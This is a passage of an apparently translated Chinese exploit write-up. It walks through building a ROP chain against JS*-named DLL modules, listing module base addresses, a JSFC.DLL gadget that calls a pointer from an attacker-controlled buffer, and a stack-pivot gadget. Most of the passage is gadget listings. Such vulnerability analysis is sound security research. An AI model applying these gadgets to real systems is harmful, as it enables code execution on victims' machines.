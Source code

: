 ```
0x02a80000 || 0x0000e000 | False | [jsvdex2.dll]
0x277a0000 || 0x00086000 | False | [jsvda.dll]
0x61200000 || 0x000c6000 | False | [JSHIVW2.dll]
0x49760000 || 0x00009000 | False | [Jsfolder.dll]
0x210f0000 || 0x000a1000 | False | [JSPRE.dll]
0x213e0000 || 0x00022000 | False | [jsmisc32.dll]
```

不用说，这些模块中有大量的ROP gadget可以用。唯一的问题是攻击者不能直接调用ROP gadget，因为vtable条目是一个指针。在编译ROP gadget列表之后，需要在所有模块中进行搜索，以查看所有ROP gadget地址是否出现在任何模块中，从而有效地查找找到的ROP gadget的指针。幸运的是，下面的gadget出现了。



```
file:JSFC.DLL
JSFC.DLL.gadgets.40
Gadget:0x5f8170bc : sub esp, 4
                    push ebx
                    push esi
                    mov eax, dword ptr [ecx + 0xa0]
                    push edi
                    push ebp
                    mov esi, ecx
                    test eax, eax
                    je 0x5f8170ee
                    push esi
                    call eax
Simplified
file:JSFC.DLL
gadget:0x5f8170bc : mov eax, dword ptr [ecx + 0xa0] ;
                    mov esi, ecx 
                    call eax
```

此gadget允许指针从攻击者控制的缓冲区取值，并直接调用，允许直接调用gadget。作为来自第一个gadget的副作用，esi和ecx现在指向同一个攻击者控制的缓冲区。以下gadget实现完整stack pivot。



```
JSFC.DLL.gadgets.40
gadget:0x5f83636e : or bh, bh
                    push esi
                    pop esp
                    mov eax, edi
                    pop edi
                    pop esi
                    pop ebp
                    ret 0x1c
]Simplified
file:JSFC.DLL
26051:0x5f83636e :  push esi
                    pop esp
                    ret 0x1c
```
